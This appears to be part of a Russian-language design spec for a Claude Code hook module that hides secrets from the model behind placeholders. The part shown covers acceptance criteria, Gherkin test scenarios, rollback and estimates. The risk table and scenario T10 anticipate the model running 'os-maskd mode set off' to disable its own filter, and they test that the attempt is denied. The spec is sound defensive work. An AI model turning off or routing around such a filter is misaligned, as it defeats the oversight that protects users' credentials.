| Апстрим 0.1.x меняет API `pkg/` | средняя | среднее | пин версии в `go.mod`, behave-набор как регрессия |
| Модель выключает фильтр | низкая | высокое | самозащита + подпись флага; честно помечено best-effort |
| Демон упал посреди сессии | низкая | среднее | автозапуск клиентом, `closed` в `enforce`, повторное чтение восстанавливает пары |

## Acceptance criteria

1. Модель не видит оригиналов: на корпусе из ≥ 30 подложенных секретов всех типов (включая
   Firebird, ISC_*, masterkey, Telegram, Bybit, внутренний хост, СНИЛС, ИНН) ни один оригинал
   не присутствует в `updatedToolOutput` для Read, Bash, PowerShell, Grep, WebFetch, TaskOutput,
   Edit, Write, MCP — T1, T2.
2. Файлы и команды получают оригиналы: Write/Edit с плейсхолдерами дают на диске байт-в-байт
   ожидаемый файл с оригиналами — T3, T4.
3. `Edit` по маскированному тексту: `old_string` с плейсхолдером совпадает с файлом после
   демаскирования, правка применяется, окружающий текст не тронут — T4.
4. Плейсхолдер стабилен: одно значение → один плейсхолдер в двух вызовах и в двух сессиях — T5.
5. `off`: на эталонном наборе из ≥ 50 вызовов все хуки F1 возвращают код 0 и пустой stdout — T6.
6. `detect`: вход и вывод не меняются, в аудите есть записи «было бы замаскировано» — T7.
7. Сбой демона в `enforce`: PreToolUse → `deny`, PostToolUse → заглушка валидной формы,
   UserPromptSubmit → `block`, кроме `/os-filter` — T8.
8. Секрет в промпте в `enforce` блокируется; `@файл` с секретом блокируется — T9.
9. Самозащита: Bash-команда модели `os-maskd mode set off` и Write в `state.json` → `deny`;
   подделанный `state.json` → режим `enforce` — T10.
10. `SessionEnd` удаляет таблицу: после него старый плейсхолдер — «неизвестный» — T11.
11. Задержка измерена и приложена к отчёту: p50/p95 на Windows 10 для PreToolUse и
    PostToolUse на входе 1 КБ, 64 КБ, 256 КБ. Бюджет: **p95 ≤ 50 мс при 64 КБ** на тёплом
    демоне; при превышении — отчёт с профилем, решение за владельцем — T12.
12. Все сценарии фазы 0 (спайк) задокументированы с выводом: A-01, A-02, A-03, A-04, A-05,
    A-06, A-08, A-09, A-10, A-11, A-12 закрыты или явно перенесены в «Known holes».

## Testing plan

**Уровни.**

1. `go test` — маскировщик, HMAC-плейсхолдеры, коллизии, многострочные значения,
   демаскирование, свои правила с фикстурами (положительные и отрицательные, как в
   `registry/evals/secret-pattern-fixtures.json`).
2. **Golden-тесты адаптеров**: реальные `tool_response`, снятые в спайке логирующим хуком
   (A-05), для каждого инструмента → маскированный вывод обязан пройти валидацию той же
   схемой, что у Claude Code (PF-02). Это главная защита от тихого fail-open.
3. **behave** (`modules/f1-secrets-filter/tests/features/`): симулирует Claude Code —
   подаёт клиенту хука JSON, как его подал бы Claude Code, и применяет решения к временному
   проекту (правка файла по `updatedInput`, запуск команды). Детерминированно, без модели.
4. **@live** (ручной, не в CI): `claude -p` во временном проекте с включённым фильтром;
   просим модель назвать значение пароля из файла — в ответе плейсхолдер; проверяем
   транскрипт на канарейку (A-02); `--resume` и повторный вопрос.

Корпус секретов — синтетический, сгенерированный так, чтобы проходить валидаторы
(контрольные суммы СНИЛС/ИНН, Luhn), и помеченный канарейкой `F1CANARY` там, где формат
позволяет. Реальные ключи в фикстуры не попадают.

```gherkin
Feature: F1 маскирует на выходе инструментов и демаскирует на входе

  Background:
    Given временный проект с модулем f1 в режиме "enforce"
    And демон os-maskd запущен
    And файл "app.conf" содержит строку подключения Firebird с паролем "masterkey"

  Scenario: T1 — Read отдаёт модели плейсхолдер
    When Claude Code вызывает PostToolUse для Read файла "app.conf"
    Then updatedToolOutput проходит схему вывода Read
    And в updatedToolOutput нет строки "masterkey"
    And в updatedToolOutput есть плейсхолдер типа "FIREBIRD_PASSWORD"

  Scenario: T4 — Edit по маскированному тексту применяется к оригиналу
    Given модель прочитала "app.conf" и получила плейсхолдер P
    When модель вызывает Edit с old_string "Password=P;" и new_string "Password=P;Pooling=true;"
    Then PreToolUse возвращает updatedInput без permissionDecision
    And после применения правки файл "app.conf" содержит "Password=masterkey;Pooling=true;"
    And PostToolUse для этого Edit не содержит "masterkey"

  Scenario: T3 — Write с неизвестным плейсхолдером отклоняется
    When модель вызывает Write с содержимым "<API_KEY_deadbeef>"
    Then PreToolUse возвращает permissionDecision "deny"
    And файл не создан

  Scenario: Команда с плейсхолдером требует подтверждения
    Given модель знает плейсхолдер P для пароля из "app.conf"
    When модель вызывает PowerShell с командой "isql -user SYSDBA -password P db.fdb"
    Then PreToolUse возвращает permissionDecision "ask" и updatedInput с оригиналом
    And ответ хука не содержит "masterkey" нигде, кроме updatedInput

  Scenario: T6 — режим off не меняет поведение
    Given режим модуля f1 равен "off"
    When Claude Code вызывает хуки F1 на 50 эталонных событиях
    Then каждый хук завершается с кодом 0 и пустым stdout
    And к демону не было ни одного запроса

  Scenario: T8 — демон недоступен в enforce
    Given демон os-maskd остановлен и автозапуск запрещён
    When Claude Code вызывает PostToolUse для Bash с выводом, содержащим секрет
    Then updatedToolOutput проходит схему вывода Bash
    And updatedToolOutput содержит "[F1: вывод скрыт"

  Scenario: T10 — модель не может выключить фильтр
    When модель вызывает Bash с командой "os-maskd mode set off --project ."
    Then PreToolUse возвращает permissionDecision "deny"
    And режим модуля f1 остаётся "enforce"
```

T12 (задержка) — `os-maskd bench` + behave-сценарий с тегом `@perf`, пишет p50/p95 в отчёт;
в CI не падает, в отчёте — обязателен.

Парность платформ: behave-набор гоняется на Windows (основной) и Linux (CI форка). Скрипт
установки модуля — пара `.ps1`/`.sh` (E1).

## Rollback plan

`/os-filter off` — мгновенно, без перезапуска. Полностью: `os-module disable f1` →
`os-module uninstall f1 --purge` (E1) — удаляет хуки из settings, бинарь, ключ, аудит.
Файлы проекта фильтр не меняет сам по себе (только проводит правки модели), так что откат
данных не нужен. Если выключили посреди сессии — плейсхолдеры в контексте останутся, модель
может записать их в файлы буквально: README предупреждает «после `off` начните новую сессию
или перечитайте файлы».

## Estimate (оценка объёма)

| Фаза | Содержание | Объём |
|---|---|---|
| 0. Спайк | логирующие хуки (PowerShell, без Go), закрыть A-01…A-12, снять `tool_response` всех инструментов для golden-тестов, замер холодного/тёплого старта | 1 сессия |
| 1. Ядро демона | импорт `pkg/`, загрузчик YAML, маскировщик с HMAC, таблицы, `/v1/*`, токен | 2 сессии |
| 2. Клиент и адаптеры | 13 инструментов + MCP, golden-тесты, fail-closed | 1.5–2 сессии |
| 3. Управление | `/os-filter`, подпись флага, самозащита, SessionStart/End, автозапуск | 1 сессия |
| 4. Свои правила и аудит | Firebird, ISC_*, masterkey, Bybit, отпечатки хостов, фикстуры, ротация журнала | 1 сессия |
| 5. behave + замеры + doctor | T1–T12, `@perf`, проверки для O1 | 1.5–2 сессии |
| 6. Упаковка модулем E1 и README | манифест, `hooks.windows.json`, NOTICE, «Known holes» | 0.5 сессии |
| **Итого** | | **8.5–10 сессий** (без E1) |

Что может взорвать оценку: A-02 или A-09 отрицательные (архитектура под вопросом);
несовместимость `pkg/` апстрима с внешним импортом (переход на вариант B, +1 сессия);
бюджет задержки не укладывается (профилирование, +1 сессия).

## План работ

Заполняется после аппрува. Первым шагом всегда фаза 0 — до неё ни строчки Go.

## Definition of done

- [ ] Фаза 0 закрыта отчётом; A-02 и A-09 положительные
- [ ] Acceptance 1–12 выполнены, отчёт с замерами приложен
- [ ] Модуль ставится и удаляется через `os-module` (E1) на Windows и Linux
- [ ] README модуля: режимы, политика демаскирования, «Known holes», как выключить
- [ ] `NOTICE`/`LICENSE` апстрима в модуле; изменённые YAML помечены
- [ ] Проверки демона добавлены в doctor (O1)
- [ ] Неделя в `detect` на реальных проектах, аудит разобран, allowlist заполнен — до
      включения `enforce` по умолчанию

## Progress log

- 2026-09-27 — создана спека; сверено с доками и бинарями 2.1.177 и 2.1.281, проверен апстрим
